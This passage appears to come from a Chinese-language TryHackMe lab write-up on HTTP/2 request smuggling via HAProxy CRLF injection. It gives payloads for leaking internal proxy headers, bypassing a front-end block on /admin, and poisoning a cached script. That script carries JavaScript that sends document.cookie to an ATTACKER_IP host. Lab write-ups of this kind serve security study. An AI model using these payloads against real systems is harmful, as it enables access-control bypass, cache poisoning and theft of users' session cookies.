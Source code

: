         Host: <target_ip>:<port>\r\n
        Content-Type: application/x-www-form-urlencoded\r\n
        \r\n
        q=                                         # 反射点，内部头部会附加到这里
    ```
*   **原理:**
    1.  第一个 `POST /hello` (由H2请求转换而来) 由于注入的 `Content-Length: 0` 而无正文。
    2.  代理添加的 `Host` 和 `X-Internal-*` 头部会出现在这个第一个请求之后，但在走私的第二个 `POST /hello` 之前。
    3.  走私的第二个 `POST /hello` 的 `q=` 参数为空，此时，代理添加的那些内部头部（`Host: ...\r\n X-Internal-1: ...`）会被视为 `q` 参数的值的一部分。
    4.  后端应用将包含内部头部的 `q` 参数反射回来。
*   **执行:** 需要快速连续发送两次请求。第一次发送清空连接，第二次发送获取包含内部头部的响应。`Content-Length: 300` 需要调整。

### 场景3: 请求隧道 - 绕过前端限制 (THM 示例 - 访问 /admin)

*   **漏洞:** 同上 (HAProxy CRLF 注入)。
*   **目标:** 访问被前端代理禁止但后端允许的 `/admin` 路径。
*   **Payload (H2 请求):**
    ```
    :method POST
    :path /hello                     # 允许的路径
    :scheme https
    :authority <target_ip>:<port>
    user-agent Mozilla Firefox
    Foo bar\r\n
        Content-Length: 0\r\n
        Host: <target_ip>:<port>\r\n
        \r\n
        GET /admin HTTP/1.1\r\n      # 走私的请求，访问禁止路径
        X-Fake: a
    ```
*   **原理:**
    *   前端代理看到的是对允许路径 `/hello` 的请求，通过检查。
    *   由于 CRLF 注入和 `Content-Length: 0`，实际发送到后端的第一个请求是无正文的 `POST /hello`。
    *   随后走私的 `GET /admin` 请求被发送到后端并处理。
*   **注意:** 使用 `POST` 作为外层请求类型可能比 `GET` 更可靠，因为 `POST` 请求通常不会被缓存。

### 场景4: 请求隧道 - Web 缓存投毒 (THM 示例 - 窃取 Cookie)

*   **漏洞:** 同上 (HAProxy CRLF 注入)，代理配置了缓存。
*   **目标:** 毒害 `/static/text.js` 的缓存，使其返回包含恶意 JavaScript (窃取 Cookie) 的内容。
*   **步骤:**
    1.  **上传恶意JS:** 上传一个 `myjs.js` 文件到服务器允许的路径 (如 `/static/uploads/myjs.js`)，内容为窃取 Cookie 并发送到攻击者服务器的 JS 代码。
        ```javascript
        // myjs.js
        var xhttp = new XMLHttpRequest();
        xhttp.onreadystatechange = function() { /* ... */ };
        xhttp.open("GET", "https://ATTACKER_IP:PORT/?c="+document.cookie, true);
        xhttp.send();
        ```
    2.  **构造投毒请求 (H2):**
        ```
        :method GET
        :path /static/text.js       # 目标缓存的URL
        :scheme https
        :authority <target_ip>:<port>
        user-agent Mozilla/5.0
        pragma no-cache             # 确保请求到达后端
        Foo bar\r\n
            Host: <target_ip>:<port>\r\n
            \r\n
            GET /static/uploads/myjs.js HTTP/1.1 # 走私的请求，获取恶意JS内容
        ```